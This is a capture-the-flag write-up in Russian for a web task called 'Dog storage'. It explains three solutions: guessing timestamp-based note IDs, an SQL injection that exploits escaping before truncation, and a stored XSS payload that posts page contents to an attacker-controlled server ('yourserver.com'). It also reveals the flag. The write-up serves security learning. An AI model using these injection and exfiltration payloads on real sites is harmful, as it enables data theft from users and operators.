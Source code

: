 # Dog storage

_Server sources will be posted soon_

> Dog Association has invented service where you can store any information and share link with your friend!
>
> It's really interesting, but we think it's secure so they can transfer important information.
>
> Check it for any useful notes.
>
> _Hint:_ what happens if <code>id</code> will have non-standard length or contain non-standard symbols? Try append some symbols to left or right side of ID of existing note

## Write-up
Есть три различных способа решения этого таска:

### Случайные строки
Случайная строка, называемая `id`, получалась ненадежным способом — первым в Гугле по запросу `случайная строка php`.
На самом деле, это HEX-представление текущего timestamp. В канале во время проведения появилась информация о том, что
флаг был перезалит. Можно было подобрать правильный `id`, зная время отправки в пределах 1-2 минут.

### SQL-инъекция
Первое, что нужно заметить — длина `id` равна 13 символам.

Второе — при добавлении "мусора" слева пост находится.

Значит, пост обрезается слева до 13 символов.

На самом деле, всё ещё хуже: сначала строка экранируется, а только потом обрезается.
Таким образом, можно подобрать строку запроса так, чтобы апостроф заэкранировался, а слеш перед ним "обрезался" на следующем шаге.

Подходящей инъекцией является `' or 11>1 -- ` (пробел на конце обязателен).

### XSS
Заметим, что никакие теги не экранируются вообще.

Можно предположить, что кто-то решит таск (например, жюри проверит работоспособность таска).

Поднимем свой сервер, который запоминает данные со всех пришедших запросов (например, в файле).

Загрузим скрипт, который отправляет содержимое страницы POST-запросом на сервер:

```javascript
<script src="https://code.jquery.com/jquery-3.1.js"></script>
<script>
  $(document).ready(function(){
    $.post('http://yourserver.com/', {'page': $('html').html()}, function(){alert('You hacked haha');});
  });
</script>
```

Ждем, пока кто-то откроет все посты и отправляем флаг

Флаг: `uctfrealescapeisunsafe`
